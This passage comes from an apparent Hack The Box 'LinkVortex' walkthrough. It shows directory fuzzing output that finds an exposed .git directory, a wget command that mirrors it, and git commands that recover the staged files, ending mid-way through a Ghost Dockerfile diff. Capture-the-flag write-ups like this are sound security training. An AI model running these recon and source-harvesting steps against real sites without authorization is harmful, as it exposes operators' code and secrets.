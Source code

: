```
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cgi-bin                 [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 32ms]
.git                    [Status: 200, Size: 2796, Words: 186, Lines: 26, Duration: 37ms]
icons                   [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 28ms]
```

It seems that developers by mistake exposed `.git` directory! Let's exfiltrate it and use `git` locally to dig deeper.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ wget -q -r -np -R "index.html*" http://dev.linkvortex.htb/.git/ && \
cd dev.linkvortex.htb/ && \
ls -la .git/
total 740
drwxrwxr-x 7 magicrc magicrc   4096 Apr 11 21:27 .
drwxrwxr-x 3 magicrc magicrc   4096 Apr 11 21:27 ..
-rw-rw-r-- 1 magicrc magicrc    201 Dec  2 11:10 config
-rw-rw-r-- 1 magicrc magicrc     73 Dec  2 11:10 description
-rw-rw-r-- 1 magicrc magicrc     41 Dec  2 11:10 HEAD
drwxrwxr-x 2 magicrc magicrc   4096 Apr 11 21:27 hooks
-rw-rw-r-- 1 magicrc magicrc 707577 Dec  2 11:56 index
drwxrwxr-x 2 magicrc magicrc   4096 Apr 11 21:27 info
drwxrwxr-x 2 magicrc magicrc   4096 Apr 11 21:27 logs
drwxrwxr-x 5 magicrc magicrc   4096 Apr 11 21:27 objects
-rw-rw-r-- 1 magicrc magicrc    147 Dec  2 11:10 packed-refs
drwxrwxr-x 3 magicrc magicrc   4096 Apr 11 21:27 refs
-rw-rw-r-- 1 magicrc magicrc     82 Dec  2 11:10 shallow
```

With `.git` accessible locally, let's verify the internal consistency of Git objects.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ git fsck --full
Checking object directories: 100% (256/256), done.
Checking objects: 100% (6833/6833), done.
```

Reset files to their last committed state.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ git checkout .
Updated 5596 paths from the index
```

And see the differences between the last committed version and the files that have been staged for the next commit.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ git diff --staged
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
```